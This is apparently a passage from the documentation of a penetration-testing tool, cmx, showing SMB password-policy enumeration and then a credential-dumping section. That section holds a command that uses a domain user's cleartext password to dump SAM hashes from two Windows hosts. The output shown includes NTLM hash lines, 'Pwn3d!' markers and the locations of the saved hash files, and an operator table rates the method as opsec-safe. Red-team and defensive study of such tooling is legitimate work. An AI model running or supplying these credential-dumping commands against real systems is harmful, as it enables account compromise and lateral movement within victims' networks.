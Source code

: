 ```
snipped
....
Aug.20.19 15:46:22  SMB         10.10.33.122:445  10.10.33.122  Domain Refuse Password Change: 5                                                                 |
Aug.20.19 15:46:22  SMB         10.10.33.122:445  10.10.33.122  Domain Password Store Cleartext: e                                                               |
Aug.20.19 15:46:22  SMB         10.10.33.122:445  10.10.33.122  Domain Password Lockout Admins: -                                                                |
Aug.20.19 15:46:22  SMB         10.10.33.122:445  10.10.33.122  Domain Password No Clear Change: 3                                                               |
Aug.20.19 15:46:22  SMB         10.10.33.122:445  10.10.33.122  Domain Password No Anon Change: 2                                                                |
Aug.20.19 15:46:22  SMB         10.10.33.122:445  10.10.33.122  Domain Password Complex: 4  
```

--------------------------------------------------------------------------------------------------------------------------------------------------------
--------------------------------------------------------------------------------------------------------------------------------------------------------

# Extracting Credentials

Output for cred dumping commands are saved to the logs folder.   
Exact location is mentioned after the command.     


For reasons i have yet to determine, you cant use --sam and --lsa together.  
Secrets dump dont like it.  
  
### \*Dump SAM hashes using methods from secretsdump.py 

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | true        | false       | true*      |

```
#~  cmx smb 10.10.33.123-124 -u agrande -p User\!23 --sam

Aug.20.19 15:55:28  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 15:55:28  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 15:55:28  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 15:55:28         [!] Dumping SAM hashes [!]
Aug.20.19 15:55:28  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 15:55:28         [!] Dumping SAM hashes [!]
Aug.20.19 15:55:30  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Win7P:1000:aad3b435b51404eeaad3b435b51404ee:7ef966657ac6efcd0692cef758f4deb9:::
Aug.20.19 15:55:30         [!] Added 3 SAM hashes to the database [!]
Aug.20.19 15:55:30         [!] Saved 3 hashes to ~/.cmx/logs/WIN7P-PC_10.10.33.124_2019-08-20_155530.sam [!]
Aug.20.19 15:55:30  Win7E:1000:aad3b435b51404eeaad3b435b51404ee:7ef966657ac6efcd0692cef758f4deb9:::
Aug.20.19 15:55:30         [!] Added 3 SAM hashes to the database [!]
Aug.20.19 15:55:30         [!] Saved 3 hashes to ~/.cmx/logs/WIN7E-PC_10.10.33.123_2019-08-20_155530.sam [!]
```
